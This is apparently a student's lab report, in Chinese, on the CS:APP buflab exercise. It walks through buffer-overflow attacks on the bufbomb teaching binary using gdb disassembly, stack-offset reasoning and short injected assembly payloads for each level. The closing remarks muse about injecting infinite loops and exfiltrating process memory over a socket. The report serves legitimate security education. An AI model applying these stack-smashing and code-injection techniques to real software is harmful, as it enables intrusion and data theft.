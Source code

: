 #buflab实验报告
***

##实验原理

###Level0

####思路：

* test函数调用getbuf()函数时，先将返回地址压入栈中，再将eip指向getbuf()函数首句指令的地址
* 找到返回地址的地址，并将该地址的值修改成为smoke()函数首句指令的地址

####步骤：

* ubuntu16.04系统环境下运行gdb

```c
//加载可执行文件
>>> file bufbomb
//反编译smoke函数，拿到起始地址,为0x08048b04
>>> disassem smoke

>>> 0x08048b04 <+0>:	push   %ebp
    0x08048b05 <+1>:	mov    %esp,%ebp
    0x08048b07 <+3>:	sub    $0x18,%esp
    0x08048b0a <+6>:	movl   $0x804a5b0,(%esp)
    0x08048b11 <+13>:	call   0x8048900 <puts@plt>
    0x08048b16 <+18>:	movl   $0x0,(%esp)
    0x08048b1d <+25>:	call   0x804942e <validate>
    0x08048b22 <+30>:	movl   $0x0,(%esp)
    0x08048b29 <+37>:	call   0x8048920 <exit@plt>

//反编译getbuf函数，观察其栈帧结构
>>> disassem getbuf

>>> 0x08049284 <+0>:	push   %ebp
    0x08049285 <+1>:	mov    %esp,%ebp
    0x08049287 <+3>:	sub    $0x38,%esp
    0x0804928a <+6>:	lea    -0x28(%ebp),%eax
    0x0804928d <+9>:	mov    %eax,(%esp)
    0x08049290 <+12>:	call   0x8048d66 <Gets>
    0x08049295 <+17>:	mov    $0x1,%eax
    0x0804929a <+22>:	leave  
    0x0804929b <+23>:	ret 

//打断点并监测中断时的寄存器值，拿到不同情况下的ebp和eip
>>> break getbuf
>>> run -u 2016013239
>>> -c
>>> info integers
>>> -c
>>> info integers


```

* getbuf函数中，eax指向char buf[32]的起始地址
* eax与旧ebp的存储地址相差 2 * 16 + 8 = 40个字节
* 旧ebp使用4个字节存储，再上方即为返回地址

####答案（注意使用小端存储）
40个占位字节（非结束符）+ test的ebp + smoke的返回地址

***

###Level1

####思路：
* 与level0大致相同，但要传参数，故需要将溢出覆盖到参数位置上
* 在正常调用fizz函数时，第一个参数的位置为ebp+8

####答案：
40个占位字节（非结束符）+ test的ebp + smoke的返回地址 + 4个占位字节 + cookie的值

*** 

###level2

####思路：
* 观察反汇编代码，得到缓冲区入口地址和全局变量的地址
* 将getbuf()的返回地址指向缓冲区的起始地址
* 函数返回后，会先执行缓冲区中注入的可执行的机器指令（精心设计）
* 执行目的指令(修改global)后，push bang()函数的起始地址，再调用ret指令，使eip指向bang()函数，跳转完成

```c
//juice.s
movl $0x5d434ea2,%eax
movl %eax,0x804e10c
pushl $0x08048b82
ret
```
```c
//将汇编代码写进juice.s文件中，编译得到可执行文件
>>> gcc -m32 -c juice.s
//反汇编查看机器指令
>>> objdump -d juice.o
```

####答案：
反编译得到的机器指令 + 占位字节 + 返回地址(缓冲区地址）

***
###level3
####思路：
* 向缓冲区注入代码修改返回寄存器eax的值，让其等于cookie，修改ebp使其等于test函数运行时的ebp
* 观察test()函数，得到调用getbuf()函数的下一行指令的地址
* 将地址压栈，再ret

```c
//test函数
0x08048be0 <+0>:	push   %ebp
...
0x08048bee <+14>:	call   0x8049284 <getbuf>
0x08048bf3 <+19>:	mov    %eax,-0xc(%ebp)
...
0x08048c28 <+72>:	mov    %eax,(%esp)
```
```c
//juice.s
movl $0x55683be0,%ebp
movl $0x5d434ea2,%eax
pushl $0x08048bf3
ret
```
####答案：
反编译得到的机器指令 + 占位字节 + 返回地址(缓冲区地址）

***
###level4
####思路：
* 需要调用5次getbufn()函数，且必须准确返回到testn()函数中
* 虽然写字符串会覆盖掉旧的ebp，使得getbufn结束跳转到攻击代码时ebp的值不能正常恢复
* 在getbufn的最后，esp已经被正常恢复到testn调用getbufn之前的状态
* 而testn中，esp = ebp - 0x28，凭借此关系恢复ebp

```c
//juice.s
leal 0x28(%esp),%ebp
movl $0x5d434ea2,%eax
pushl $0x08048c67
ret
```
####答案：
占位nop指令 + 反编译得到的机器指令 （共计528字节 = 0x208 + 8）

***

##实验感想
* 在IA32汇编指令中立即数操作和指针数操作不同
	* mov 0x12345678,%eax代表将该地址的值赋给eax
	* mov $0x12345678,%eax代表将值本身赋给eax
	* 我中了这个坑

* 为提高实验效率，应当先打印所有相关函数的反汇编结果以及断点运行下不同状态的寄存器的值，记录关键信息

* 本次实验让我对缓冲区溢出理解更加深刻，我也想到了更多神奇的溢出区攻击方法，以后编程中，需要加以防范：

	1、注入死循环的机器指令  
	2、一个缓冲区漏洞长度有限，可否通过建立一个socket，不断向外发送已经读取的进程的数据区，代码区，实现全偷盗
